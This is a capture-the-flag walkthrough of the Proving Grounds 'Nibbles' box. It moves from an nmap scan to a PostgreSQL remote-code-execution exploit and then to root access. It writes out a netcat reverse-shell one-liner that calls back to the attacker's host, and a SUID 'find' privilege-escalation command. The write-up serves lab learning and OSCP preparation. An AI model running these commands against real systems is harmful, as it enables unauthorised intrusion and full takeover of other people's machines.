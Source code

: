 ```yaml
---
layout: post
title: Proving Grounds - Nibbles
subtitle: CTF Walkthrough
cover-img: /assets/img/nibbles/nibbler.png
thumbnail-img: /assets/img/nibbles/nibbler.png
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Nibbles is a intermediate rated box on Proving Grounds, which is also found in NetSec Focus trophy list and in many OSCP preparation lab lists.

### Nmap Scan

```
└─$ nmap -sV -sC 192.168.157.47             
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-02 10:04 EDT
Nmap scan report for 192.168.157.47
Host is up (0.12s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

```

### UDP Scan

No ports open

### FTP

Anonymous access is disabled, moving on for now.

### HTTP

* Directory brute forcing gave no results
* Attempted to fuzz http://192.168.157.47/page2.html with different page number combinations with no results
* No low hanging fruits, moving on for now

### Posgresql

Searched google for "PostGreSQL 11.3 Exploit" and stumbled across [PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50847)

Downloaded and attempted to run this with default values even though it's authenticated. Just edited the script to change the port and IP address and it seemed to work. Looks like default username/password was not changed.

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py 

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Add the argument -c [COMMAND] to execute a system command

```

Added a reverse shell to command parameter and we got a local user shell !

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.157 80 >/tmp/f"

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _8e1261939f6bc6f21e1804f30e744ab7

```

Local flag

```
$ whoami
postgres
$ find / -name local.txt 2>/dev/null
/home/wilson/local.txt
```

### Privilege escalation

I spawned tty with python and did SUID and crontab checks first.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
postgres@nibbles:/var/lib/postgresql/11/main$

postgres@nibbles:/var/lib/postgresql/11/main$ find / -type f -perm -04000 -ls 2>/dev/null 
</main$ find / -type f -perm -04000 -ls 2>/dev/null 
   137358     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    19052    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    15602     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      282     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
      286     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
      285     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
      283     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
    34845     36 -rwsr-xr-x   1 root     root          34896 Jan  7  2019 /usr/bin/fusermount
     3838     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
      261     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
     4071     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     2248    312 -rwsr-xr-x   1 root     root         315904 Feb 16  2019 /usr/bin/find
    22663    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
     4073     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount

postgres@nibbles:/var/lib/postgresql/11/main$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```
Looking through SUID files I noticed there's find executable which is not something I have seen frequently. Double checking it on GTFOBins we can see it can be used to elevate our privileges.
```
postgres@nibbles:/var/lib/postgresql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
<esql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
# whoami 
whoami
root
```

GG we got root.
